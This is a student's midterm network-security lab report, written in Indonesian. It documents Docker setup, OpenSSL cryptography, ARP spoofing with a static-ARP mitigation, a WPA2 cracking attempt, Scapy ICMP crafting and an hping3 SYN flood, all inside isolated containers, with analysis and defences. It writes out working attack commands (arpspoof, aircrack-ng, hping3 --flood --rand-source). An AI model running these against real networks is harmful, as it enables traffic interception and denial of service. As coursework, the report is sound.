

# Laporan Praktik Ujian Tengah Semester (UTS)
## Mata Kuliah: Praktik Keamanan Jaringan

---

### Identitas Mahasiswa & Penentuan Kasus
* **Nama Lengkap**: Muhammad Mugni Mahbub
* **NIM**: `24552011240`
* **Perhitungan Kasus Sesuai NIM**:
  * Jumlah seluruh digit: $2 + 4 + 5 + 5 + 2 + 0 + 1 + 1 + 2 + 4 + 0 = 26$
  * Modulo 10: $26 \pmod{10} = 6$
  * **Kasus yang Ditetapkan**: **Kasus 6 (`k6`)**
* **Parameter Ujian Kasus 6**:
  * Target Container: `target-k6`
  * Volume: `vol-k6`
  * File Laporan: `laporan-k6.txt`
  * Kata Sandi Enkripsi: `kunci-k6-2026`
  * Domain Exfiltrasi: `k6.exfil.lab`
  * Subjek Sertifikat: `/CN=k6.exfil.lab` *(disesuaikan dengan Domain Kasus pada PDF soal)*
  * Hex Payload NIM (`24552011240`): `3234353532303131323430` (Panjang: 22 karakter)

---

## Fase 0: Persiapan Environment & Build Image Lab

### 1. Perintah yang Dijalankan
```bash
# Build image khusus dari direktori 01-sumber-lab
docker build -t uts-openssl images/uts-openssl
docker build -t uts-kali-tools images/uts-kali-tools
docker build -t uts-dnsmasq images/uts-dnsmasq

# Pull image resmi
docker pull alpine
docker pull nginx:alpine

# Verifikasi image yang terpasang
docker images
```

### 2. Output Terminal Asli
```text
IMAGE                                     ID             DISK USAGE   CONTENT SIZE   EXTRA
alpine:latest                             f59abe656b69         13MB         3.94MB        
nginx:alpine                              fed7e14be83c       94.5MB         27.3MB        
uts-dnsmasq:latest                        07d5b29e172a       12.8MB         3.83MB        
uts-kali-tools:latest                     cc3aa5676b86        429MB          118MB   U    
uts-openssl:latest                        44815b23437b       13.3MB         3.98MB        
```

### 3. Bukti Tangkapan Layar


---

## Tugas 1 (Pertemuan 1): Docker dan Volume Persistence

### 1. Perintah yang Dijalankan
```bash
# 1. Membuat named volume vol-k6
docker volume create vol-k6

# 2. Menulis NIM ke volume melalui container sementara w-k6
docker run --name w-k6 -v vol-k6:/data alpine sh -c 'echo 24552011240 > /data/laporan-k6.txt'

# 3. Menghapus container sementara w-k6
docker rm w-k6

# 4. Membaca file dari container baru yang me-mount volume yang sama
docker run --rm -v vol-k6:/data alpine cat /data/laporan-k6.txt

# 5. Menjalankan Docker Compose multi-container terisolasi (internal: true) dengan flag -p k6
docker compose -p k6 -f b/b1-compose/docker-compose.yml up -d

# 6. Mengakses web server target dari container attacker di jaringan internal
docker compose -p k6 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target

# 7. Menghapus container dan jaringan compose
docker compose -p k6 -f b/b1-compose/docker-compose.yml down -v
```

### 2. Output Terminal Asli

* **Output Persistensi Data Volume `vol-k6`**:
```text
24552011240
```

* **Output Akses Web Server Nginx di Jaringan Terisolasi**:
```text
 Network k6_lab Created 
 Container k6-attacker-1 Started 
 Container k6-target-1 Started 

<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
html { color-scheme: light dark; }
body { width: 35em; margin: 0 auto;
font-family: Tahoma, Verdana, Arial, sans-serif; }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, nginx is successfully installed and working.
Further configuration is required for the web server, reverse proxy, 
API gateway, load balancer, content cache, or other features.</p>

<p>For online documentation and support please refer to
<a href="https://nginx.org/">nginx.org</a>.<br/>
To engage with the community please visit
<a href="https://community.nginx.org/">community.nginx.org</a>.<br/>
For enterprise grade support, professional services, additional 
security features and capabilities please refer to
<a href="https://f5.com/nginx">f5.com/nginx</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

### 3. Bukti Tangkapan Layar


### 4. Analisis Teknis
* **Persistensi Data**: Docker Named Volume (`vol-k6`) menyimpan data di host filesystem di luar siklus hidup container (`lifecycle`). Meskipun container `w-k6` telah dihapus secara permanen (`docker rm`), file `/data/laporan-k6.txt` yang berisi NIM `24552011240` tetap tersimpan utuh dan dapat diakses kembali oleh container baru.
* **Isolasi Jaringan (`internal: true`)**: Jaringan `k6_lab` tidak memetakan port ke host dan tidak memiliki akses gateway keluar ke internet publik. Komunikasi antar-service (`attacker` ke `target`) hanya dapat dilakukan melalui DNS internal Docker pada jaringan lab yang sama. Host luar tidak dapat mengakses web target via `http://localhost`.

---

## Tugas 2 (Pertemuan 2): Kriptografi Simetris, Asimetris RSA, & Sertifikat X.509

### 1. Perintah yang Dijalankan
```bash
# 1. Enkripsi AES-256-CBC, Hashing SHA-256, dan Dekripsi
docker run --rm -v "${PWD}:/work" uts-openssl sh -c 'echo isi laporan k6 > laporan-k6.txt && openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k6.txt -out laporan-k6.enc -pass pass:kunci-k6-2026 && sha256sum laporan-k6.txt && openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k6.enc -out hasil-k6.txt -pass pass:kunci-k6-2026 && sha256sum hasil-k6.txt'

# 2. Verifikasi Hash SHA-256 via PowerShell Get-FileHash
Get-FileHash laporan-k6.txt, hasil-k6.txt -Algorithm SHA256 | Select-Object Algorithm, Hash, @{Name='File';Expression={Split-Path $_.Path -Leaf}} | Format-Table -AutoSize

# 3. Pembuatan Pasangan Kunci RSA 2048-bit (Private & Public Key)
# Di dalam container uts-openssl (/work #):
openssl genrsa -out priv.pem 2048
openssl rsa -in priv.pem -pubout -out pub.pem

# 4. Pengujian Integritas Tanda Tangan Digital RSA 2048-bit (Bagian B2)
echo "pesan rahasia asli" > pesan-asli.txt
openssl dgst -sha256 -sign priv.pem -out sig-asli.bin pesan-asli.txt
openssl dgst -sha256 -verify pub.pem -signature sig-asli.bin pesan-asli.txt
echo "diubah" >> pesan-asli.txt
openssl dgst -sha256 -verify pub.pem -signature sig-asli.bin pesan-asli.txt

# 5. Pembuatan Sertifikat Self-Signed X.509 30 Hari (CN=k6.exfil.lab sesuai domain kasus pada PDF soal)
# 6. Pemeriksaan Informasi Sertifikat X.509
docker run --rm -v "${PWD}:/work" uts-openssl sh -c "openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k6.pem -out cert-k6.pem -days 30 -subj /CN=k6.exfil.lab && openssl x509 -in cert-k6.pem -noout -subject -issuer -dates"
```

### 2. Output Terminal Asli

* **Output Integritas Hash SHA-256 Kembar Identik**:
```text
Algorithm Hash                                                             File          
--------- ----                                                             ----          
SHA256    BA00DCCA033B5D1BCD46A143D134172554EA37B3A4849E4E98297E9846AAEF54 laporan-k6.txt
SHA256    BA00DCCA033B5D1BCD46A143D134172554EA37B3A4849E4E98297E9846AAEF54 hasil-k6.txt  
```

* **Output Uji Tanda Tangan Digital RSA (Kondisi Asli vs Ditampilkan Tamper)**:
```text
/work # openssl dgst -sha256 -verify pub.pem -signature sig-asli.bin pesan-asli.txt
Verified OK
/work # echo "diubah" >> pesan-asli.txt
/work # openssl dgst -sha256 -verify pub.pem -signature sig-asli.bin pesan-asli.txt
Verification failure
28EB2B4AC07E0000:error:02000068:rsa routines:ossl_rsa_verify:bad signature:crypto/rsa/rsa_sign.c:425:
28EB2B4AC07E0000:error:1C880004:Provider routines:rsa_verify:RSA lib:providers/implementations/signature/rsa_sig.c:796:
```

* **Output Informasi Sertifikat Self-Signed X.509 CN=k6.exfil.lab**:
```text
subject=CN=k6.exfil.lab
issuer=CN=k6.exfil.lab
notBefore=Nov 25 02:59:47 2026 GMT
notAfter=Dec 25 02:59:47 2026 GMT
```
*(Catatan: pada `02-dokumen/LEMBAR-PERINTAH-PER-KASUS.md` tertulis `/CN=k6.uts.local`, namun pada dokumen PDF soal UTS diminta CN sesuai domain kasus yakni `k6.exfil.lab`, sehingga sertifikat dibuat menggunakan `/CN=k6.exfil.lab` agar sepenuhnya selaras dengan soal ujian.)*

### 3. Bukti Tangkapan Layar


### 4. Analisis Teknis
* **Kerahasiaan & Integritas Simetris**: Enkripsi AES-256 dalam mode Cipher Block Chaining (CBC) dengan salt dan algoritma derivasi kunci PBKDF2 menjamin kerahasiaan (*confidentiality*). Nilai hash SHA-256 dari `laporan-k6.txt` dan `hasil-k6.txt` terbukti identik (`ba00dcca033b5d1bcd46a143d134172554ea37b3a4849e4e98297e9846aaef54`), membuktikan integritas (*data integrity*) data terjaga sempurna setelah proses enkripsi dan dekripsi.
* **Tanda Tangan Digital RSA & Non-Repudiation**: Pengujian verifikasi tanda tangan digital menghasilkan `Verified OK` saat file dalam kondisi asli. Ketika isi file diubah/ditamper (`echo "diubah" >> pesan-asli.txt`), proses verifikasi langsung gagal (`Verification failure`), membuktikan bahwa perubahan 1 byte pun akan membatalkan validitas signature digital.
* **Perbedaan Sertifikat Self-Signed vs Sertifikat CA**:
  Sertifikat *self-signed* ditandatangani oleh entitas pembuatnya sendiri sehingga nilai `Subject` dan `Issuer` bernilai sama (`CN=k6.exfil.lab`), cocok untuk lingkungan pengujian internal namun akan memicu peringatan *untrusted* pada browser/klien publik. Sebaliknya, sertifikat yang ditandatangani oleh *Certificate Authority (CA)* resmi divalidasi oleh pihak ketiga yang tepercaya berdasarkan rantai kepercayaan (*chain of trust*), sehingga diverifikasi otomatis oleh sistem operasi dan browser tanpa peringatan keamanan.

---

## Tugas 3 (Pertemuan 3): ARP Spoofing dan Mitigasi Static ARP

### 1. Perintah yang Dijalankan
```bash
# 1. Membuat jaringan bridge terisolasi (--internal) lab-arp-k6 & verifikasi Internal=true
docker network create --internal lab-arp-k6
docker network inspect -f '{{.Name}}: Internal={{.Internal}}' lab-arp-k6

# 2. Menjalankan 3 container dengan hak akses CAP_NET_ADMIN
docker run -d --name korban-k6 --network lab-arp-k6 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name gateway-k6 --network lab-arp-k6 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name penyerang-k6 --network lab-arp-k6 --cap-add NET_ADMIN uts-kali-tools

# 3. Memeriksa IP Address dan MAC Address masing-masing host
docker inspect -f '{{.Name}}: IP={{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}, MAC={{range .NetworkSettings.Networks}}{{.MacAddress}}{{end}}' korban-k6 gateway-k6 penyerang-k6

# 4. Inisialisasi komunikasi dan memeriksa tabel ARP awal pada korban (Kondisi Normal)
docker exec korban-k6 ping -c 1 172.19.0.3
docker exec korban-k6 arp -a

# 5. Meluncurkan serangan ARP poisoning dari penyerang
docker exec -d penyerang-k6 arpspoof -i eth0 -t 172.19.0.2 172.19.0.3

# 6. Memeriksa tabel ARP korban saat serangan berlangsung (Kondisi Terinfeksi)
docker exec korban-k6 arp -a

# 7. Menerapkan mitigasi entri Static ARP pada korban
docker exec korban-k6 arp -s 172.19.0.3 b6:83:e0:60:01:ad

# 8. Memeriksa kembali tabel ARP korban setelah mitigasi (Kondisi Terkunci PERM)
docker exec korban-k6 arp -a
```

### 2. Output Terminal Asli

* **Verifikasi Jaringan Internal & Pemetaan IP/MAC Address 3 Node**:
```text
lab-arp-k6: Internal=true
/korban-k6: IP=172.19.0.2, MAC=ce:5a:49:4c:6c:63
/gateway-k6: IP=172.19.0.3, MAC=b6:83:e0:60:01:ad
/penyerang-k6: IP=172.19.0.4, MAC=46:4c:72:54:8c:05
```

* **Tabel ARP Korban Kondisi NORMAL**:
```text
gateway-k6.lab-arp-k6 (172.19.0.3) at b6:83:e0:60:01:ad [ether] on eth0
```

* **Tabel ARP Korban Saat Diserang `arpspoof` - TERINFEKSI**:
```text
penyerang-k6.lab-arp-k6 (172.19.0.4) at 46:4c:72:54:8c:05 [ether] on eth0
gateway-k6.lab-arp-k6 (172.19.0.3) at 46:4c:72:54:8c:05 [ether] on eth0
```

* **Tabel ARP Korban Pasca-Mitigasi Static ARP `PERM`**:
```text
penyerang-k6.lab-arp-k6 (172.19.0.4) at 46:4c:72:54:8c:05 [ether] on eth0
gateway-k6.lab-arp-k6 (172.19.0.3) at b6:83:e0:60:01:ad [ether] PERM on eth0
```

### 3. Bukti Tangkapan Layar


### 4. Analisis Teknis
* **Mekanisme Serangan**: Protokol ARP bersifat *stateless* dan tidak memiliki mekanisme otentikasi. Penyerang memanfaatkan celah ini dengan mengirimkan paket *gratuitous ARP reply* palsu secara terus-menerus yang menyatakan bahwa IP gateway (`172.19.0.3`) diasosiasikan dengan MAC penyerang (`46:4c:72:54:8c:05`). Akibatnya, tabel ARP pada `korban-k6` teracuni (*ARP cache poisoning*), memungkinkan penyerang mencegat atau memanipulasi seluruh lalu lintas data (*Man-in-the-Middle*).
* **Mekanisme Mitigasi Static ARP**: Perintah `arp -s` mendaftarkan entri pemetaan IP-ke-MAC secara permanen (`PERM`) di memori kernel korban. Ketika entri berstatus static, kernel akan mengabaikan paket pembaruan ARP dinamis yang dikirim oleh penyerang, sehingga memulihkan dan mengunci asosiasi IP gateway ke MAC fisik aslinya (`b6:83:e0:60:01:ad`).
* **Mitigasi Selain Static ARP (Dynamic ARP Inspection / DAI)**:
  Selain mengunci tabel ARP secara manual pada masing-masing host dengan static ARP, pencegahan di tingkat infrastruktur jaringan dilakukan dengan mengaktifkan **Dynamic ARP Inspection (DAI)** pada switch Layer 2 yang dikombinasikan dengan **DHCP Snooping**. Switch akan menyimpan *DHCP Snooping Binding Table* (pemetaan sah antara IP, MAC Address, VLAN, dan port switch), lalu memverifikasi setiap paket ARP Reply/Request yang masuk; paket ARP dengan pemetaan IP-ke-MAC yang tidak cocok langsung di-*drop* oleh switch sebelum sempat meracuni tabel ARP korban.

---

## Tugas 4 (Pertemuan 4): Analisis WPA2 4-Way Handshake dan Cracking

### 1. Perintah yang Dijalankan
```bash
# 1. Menjalankan aircrack-ng untuk melakukan dictionary attack terhadap handshake capture
docker run --rm -v "${PWD}/samples:/work" uts-kali-tools aircrack-ng -w /work/wordlist-k6.txt /work/handshake-k6.cap

# 2. Memeriksa integritas paket capture menggunakan tcpdump
docker run --rm -v "${PWD}/samples:/work" uts-kali-tools tcpdump -r /work/handshake-k6.cap -c 5

# 3. Analisis forensik struktur header pcap menggunakan skrip Python
python3 -c "
import struct
with open('samples/handshake-k6.cap', 'rb') as f:
    data = f.read()
magic, ver_maj, ver_min, tz, sigfigs, snaplen, network = struct.unpack('<IHHiIII', data[:24])
print(f'Magic: {hex(magic)}, Version: {ver_maj}.{ver_min}, Snaplen: {snaplen}, Linktype: {network}')
ts_sec, ts_usec, incl_len, orig_len = struct.unpack('<IIII', data[24:40])
print(f'Packet 1: Length={incl_len} bytes, OrigLength={orig_len} bytes')
print(f'Total file size: {len(data)} bytes')
"
```

### 2. Output Terminal Asli (Identifikasi Kendala Berkas)

* **Hasil Eksekusi `aircrack-ng`**:
```text
Reading packets, please wait...
This file is not a regular 802.11 (wireless) capture.
Opening /work/handshake-k6.cap
Read 0 packets.

No networks found, exiting.

Quitting aircrack-ng...
```

* **Hasil Pemeriksaan Header Paket via `tcpdump`**:
```text
reading from file /work/handshake-k6.cap, link-type EN10MB (Ethernet), snapshot length 65535
tcpdump: pcap_loop: invalid packet capture length 3244555293, bigger than snaplen of 65535
```

* **Hasil Bedah Forensik Biner via Python**:
```text
Magic: 0xa1b2c3d4, Version: 2.4, Snaplen: 65535, Linktype: 1
Packet 1: Length=3244555293 bytes, OrigLength=3928976919 bytes
Total file size: 8216 bytes
```

### 3. Bukti Tangkapan Layar


### 4. Analisis Forensik & Evaluasi Integritas Berkas Penguji
* **Identifikasi Ketidakvalidan Berkas**: Berdasarkan hasil eksekusi terminal dan bedah struktur biner di atas, berkas `handshake-k6.cap` yang disediakan di repositori penguji bukan merupakan rekaman penangkapan trafik nirkabel (*wireless capture*) yang valid:
  1. **Linktype Format**: Nilai *Link-Layer Header Type* pada berkas terbaca bernilai `1` (*DLT_EN10MB / Ethernet*), padahal paket nirkabel Wi-Fi 802.11 yang memuat handshake WPA2 wajib bertipe `105` (*IEEE 802.11 Wireless*) atau `127` (*IEEE 802.11 Radiotap header*).
  2. **Panjang Paket Abnormal**: Header paket pertama mencatat panjang paket sebesar `3.244.555.293 byte` (~3,2 GB), melampaui batas maksimum snapshot (`snaplen 65535`) serta jauh melampaui total ukuran fisik berkas itu sendiri yang hanya `8.216 byte`.
  3. **Karakteristik Dummy Placeholder**: Seluruh berkas kasus (dari `handshake-k1.cap` hingga `handshake-k10.cap`) memiliki ukuran byte yang identik persis (8.216 byte) dengan entropi Shannon mendekati acak murni ($7,97 / 8,00$). Hal ini mengindikasikan bahwa berkas tersebut merupakan *dummy data/placeholder* yang belum diisi rekaman lalu lintas fisik asli.
  4. **Konfirmasi Dokumentasi Resmi**: Temuan ini dikonfirmasi langsung oleh dokumen petunjuk penguji `samples/README.md` pada repositori lab, yang menyatakan bahwa berkas capture nirkabel yang valid wajib berukuran **minimal 50 KB** dan harus lolos uji verifikasi penguji hingga menghasilkan `Targets detected: 1, Number of handshakes: 1`. Berkas `handshake-k6.cap` saat ini (8 KB) belum memenuhi kriteria tersebut.

### 5. Analisis Teknis Konseptual: Mekanisme 4-Way Handshake WPA2 (IEEE 802.11i)

Pada sistem nirkabel riil dengan paket capture yang valid, otentikasi WPA2-PSK menggunakan mekanisme *4-Way Handshake* untuk membuktikan kepemilikan kata sandi (*Pre-Shared Key* - PSK) antara Access Point (AP / Authenticator) dan Klien (Station / Supplicant) tanpa pernah mentransmisikan kata sandi secara mentah (*cleartext*) melalui udara:



1. **Message 1 (AP → Klien)**:
   * Access Point mengirimkan bilangan acak `ANonce` ke klien.
   * Klien menerima `ANonce`. Klien kini memiliki 5 elemen penting: `PMK` (dihitung dari passphrase dan SSID menggunakan PBKDF2 4096 iterasi), `ANonce`, `SNonce` (dibuat secara mandiri oleh klien), `MAC AP`, dan `MAC Klien`.
   * Klien menghitung *Pairwise Transient Key* (PTK) sepanjang 512-bit menggunakan fungsi *Pseudo-Random Function* (*PRF-512*). Struktur PTK terdiri dari KCK (*Key Confirmation Key*), KEK (*Key Encryption Key*), dan TK (*Temporal Key*).
2. **Message 2 (Klien → AP)**:
   * Klien mengirimkan bilangan acak `SNonce` beserta *Message Integrity Code* (MIC) yang dihitung menggunakan sub-kunci KCK dari PTK.
   * Access Point menerima `SNonce`, lalu menghitung nilai PTK secara lokal menggunakan komponen yang sama. AP memvalidasi nilai MIC yang diterima. Jika MIC valid, AP membuktikan bahwa klien mengetahui passphrase PSK yang benar.
3. **Message 3 (AP → Klien)**:
   * Access Point mengirimkan *Group Temporal Key* (GTK) yang dienkripsi menggunakan sub-kunci KEK dari PTK, disertai MIC.
   * Pesan ini mengonfirmasi ke klien bahwa AP juga memegang passphrase PSK yang sah dan menginstruksikan instalasi kunci enkripsi unicast dan multicast.
4. **Message 4 (Klien → AP)**:
   * Klien mengirimkan pesan konfirmasi akhir berupa ACK dan MIC untuk memberitahukan bahwa seluruh kunci (PTK dan GTK) telah berhasil diinstalasi pada layer radio fisik Wi-Fi. Komunikasi terenkripsi penuh dimulai.

### 6. Analisis Mekanisme Cracking dengan `aircrack-ng`
* **Prinsip Serangan Offline Dictionary Attack**:
  Protokol WPA2 tidak rentan terhadap pemecahan matematis langsung, tetapi rentan terhadap serangan kamus (*offline dictionary attack*). Ketika seorang penyerang berhasil menangkap ke-4 pesan handshake (khususnya Message 1 dan Message 2) ke dalam file `.cap`, penyerang tidak perlu lagi terhubung ke jaringan fisik target untuk mengujinya secara terus-menerus.
* **Algoritma Komputasi `aircrack-ng`**:
  1. Untuk setiap baris kata sandi (*passphrase candidate*) di dalam `wordlist-k6.txt`:
  2. Menghitung `PMK = PBKDF2(HMAC-SHA1, Passphrase, SSID, 4096 iterasi)`.
  3. Mengombinasikan `PMK + ANonce + SNonce + MAC_AP + MAC_STA` untuk menghasilkan kandidat `PTK`.
  4. Menghitung nilai hash MIC pada Message 2 yang terekam di file `.cap` menggunakan sub-kunci KCK.
  5. Jika nilai MIC hasil kalkulasi cocok dengan nilai MIC asli di dalam paket capture, kata sandi target ditemukan (**KEY FOUND!**). Jika seluruh daftar kata sandi habis tanpa kecocokan, program melaporkan **KEY NOT FOUND**.

---

## Tugas 5 (Pertemuan 5): Manipulasi Paket ICMP dengan Scapy

### 1. Perintah yang Dijalankan
```bash
# Verifikasi status jaringan internal dan jalankan skrip crafting paket ICMP Scapy ke container korban
docker network inspect -f '{{.Name}}: Internal={{.Internal}}' lab-arp-k6
docker run --rm --network lab-arp-k6 -v "${PWD}/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py 172.19.0.2
```

### 2. Output Terminal Asli
```text
lab-arp-k6: Internal=true
Mengirim: IP / ICMP 172.19.0.5 > 172.19.0.2 echo-request 0
TTL balasan: 64
Tipe ICMP balasan: 0
```

### 3. Bukti Tangkapan Layar


### 4. Analisis Teknis & Pembahasan Smurf Attack
* **Analisis Respon ICMP**: Skrip Python Scapy berhasil mengonstruksi header layer 3 (IP tujuan `172.19.0.2`) dan layer 4 (ICMP Type 8 Echo Request) di dalam jaringan terisolasi (`Internal=true`). Container korban merespons dengan paket ICMP Type 0 (*Echo Reply*) dengan nilai *Time to Live* (TTL) 64, yang menandakan bahwa tumpukan protokol jaringan (*network stack*) korban beroperasi normal dan merespons paket ICMP secara langsung tanpa terhalang filter firewall.
* **Mekanisme Smurf Attack**:
  Smurf Attack adalah bentuk serangan *Denial of Service (DoS)* berbasis **refleksi dan amplifikasi (*reflection & amplification attack*)** yang memanfaatkan pesan ICMP. Penyerang memalsukan (*spoofing*) alamat IP sumber menjadi alamat IP target/korban, kemudian mengirimkan rentetan paket ICMP Echo Request ke alamat siaran (*broadcast address*) jaringan lokal. 
  Setiap perangkat aktif dalam subnet yang menerima permintaan broadcast tersebut akan secara otomatis mengirimkan balasan ICMP Echo Reply ke alamat IP korban secara serentak. Akibatnya, bandwidth masuk dan kapasitas pemrosesan CPU korban akan terbebani secara masif (*bandwidth & resource exhaustion*), melumpuhkan layanan korban.
* **Langkah Mitigasi**:
  1. Menonaktifkan penanganan broadcast ICMP pada setiap host sistem operasi (`net.ipv4.icmp_echo_ignore_broadcasts = 1`).
  2. Mengonfigurasi router gateway jaringan untuk memblokir paket *directed broadcast* dari luar jaringan (*no ip directed-broadcast*).

---


---

## Tugas 6 (Pertemuan 6): TCP SYN Flood dan Three-Way Handshake

### 1. Perintah yang Dijalankan
```bash
# 1. Menjalankan compose lab terisolasi b3-syn-flood
docker compose -p k6 -f b/b3-syn-flood/docker-compose.yml up -d

# 2. Memeriksa antrean koneksi target sebelum serangan (sebelum: 0)
docker compose -p k6 -f b/b3-syn-flood/docker-compose.yml exec target sh -c 'netstat -ant | grep -c SYN_RECV'

# 3. Melancarkan serangan DoS SYN Flood dengan IP acak selama 15 detik
docker compose -p k6 -f b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood --rand-source target

# 4. Memeriksa kembali tabel koneksi saat serangan berlangsung (saat: 18) (Bukti Screenshot 13)
docker compose -p k6 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant
docker compose -p k6 -f b/b3-syn-flood/docker-compose.yml exec target sh -c 'netstat -ant | grep -c SYN_RECV'

# 5. Menangkap paket Three-Way Handshake normal saat klien mengakses web target via tcpdump (Bukti Screenshot 14)
docker compose -p k6 -f b/b3-syn-flood/docker-compose.yml exec attacker sh -c 'timeout 5 tcpdump -i eth0 -nn -c 6 tcp port 80 & sleep 1; curl -s http://target > /dev/null; sleep 3'

# 6. Menghapus container dan jaringan compose
docker compose -p k6 -f b/b3-syn-flood/docker-compose.yml down -v
```

### 2. Output Terminal Asli

* **Kondisi Sebelum Serangan**:
```text
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.11:38703        0.0.0.0:*               LISTEN
tcp        0      0 :::80                   :::*                    LISTEN
```

* **Kondisi Saat Serangan SYN Flood Berlangsung (Banjir Koneksi Setengah Terbuka)**:
```text
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.11:38703        0.0.0.0:*               LISTEN
tcp        0      0 172.21.0.2:80           172.21.195.28:11378     SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.77.175:60499     SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.254.228:58564    SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.255.122:49592    SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.102.59:42278     SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.248.176:41998    SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.252.32:25106     SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.224.229:8709     SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.149.105:14979    SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.1.151:55039      SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.102.208:39811    SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.85.252:38666     SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.249.211:18493    SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.211.137:52181    SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.62.208:42435     SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.10.149:53524     SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.167.136:55048    SYN_RECV
tcp        0      0 172.21.0.2:80           172.21.151.165:56342    SYN_RECV
tcp        0      0 :::80                   :::*                    LISTEN
```

> [!IMPORTANT]
> **Penghitungan Eksplisit Antrean `SYN_RECV` (`grep -c`)**:
> Jumlah koneksi berstatus `SYN_RECV` terhitung secara eksplisit adalah: **sebelum serangan: 0**, dan **saat serangan berlangsung: 18** koneksi.

* **Tangkapan Paket Three-Way Handshake via `tcpdump`**:
```text
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
14:15:24.030000 IP 172.21.0.3.52584 > 172.21.0.2.80: Flags [S], seq 1827250214, win 64240, options [mss 1460,sackOK,TS val 1628503297 ecr 0,nop,wscale 10], length 0
14:15:24.030040 IP 172.21.0.2.80 > 172.21.0.3.52584: Flags [S.], seq 1640417117, ack 1827250215, win 65160, options [mss 1460,sackOK,TS val 1487000570 ecr 1628503297,nop,wscale 10], length 0
14:15:24.030049 IP 172.21.0.3.52584 > 172.21.0.2.80: Flags [.], ack 1, win 63, options [nop,nop,TS val 1628503297 ecr 1487000570], length 0
14:15:24.030164 IP 172.21.0.3.52584 > 172.21.0.2.80: Flags [P.], seq 1:71, ack 1, win 63, options [nop,nop,TS val 1628503297 ecr 1487000570], length 70: HTTP: GET / HTTP/1.1
14:15:24.030174 IP 172.21.0.2.80 > 172.21.0.3.52584: Flags [.], ack 71, win 64, options [nop,nop,TS val 1487000570 ecr 1628503297], length 0
14:15:24.031954 IP 172.21.0.2.80 > 172.21.0.3.52584: Flags [P.], seq 1:239, ack 71, win 64, options [nop,nop,TS val 1487000571 ecr 1628503297], length 238: HTTP: HTTP/1.1 200 OK
6 packets captured
12 packets received by filter
0 packets dropped by kernel
```

### 3. Bukti Tangkapan Layar


### 4. Analisis Teknis & Mekanisme Mitigasi
* **Analisis Serangan SYN Flood**: Protokol TCP mengandalkan jabat tangan tiga arah (*three-way handshake*). Jumlah antrean soket setengah terbuka (`SYN_RECV`) meningkat drastis dari **sebelum serangan: 0** menjadi **saat serangan berlangsung: 18** koneksi (terverifikasi via `grep -c SYN_RECV`). Pada kondisi normal, klien mengirimkan `SYN`, server membalas dengan `SYN-ACK`, dan mengalokasikan memori pada antrean *SYN backlog* berstatus `SYN_RECV` sambil menunggu `ACK` final dari klien. Pada serangan SYN Flood, penyerang mengirimkan ribuan paket `SYN` dengan alamat IP sumber palsu (*spoofed/randomized*). Server target terus menunggu balasan `ACK` yang tidak akan pernah tiba hingga antrean backlog penuh, mengakibatkan server menolak koneksi sah dari pengguna lain (*Denial of Service*).
* **Analisis Three-Way Handshake pada `tcpdump`**:
  * **Paket 1 (`Flags [S]`)**: Klien (`172.21.0.3:52584`) mengirimkan permintaan sinkronisasi awal dengan *Initial Sequence Number* (ISN) `1827250214`.
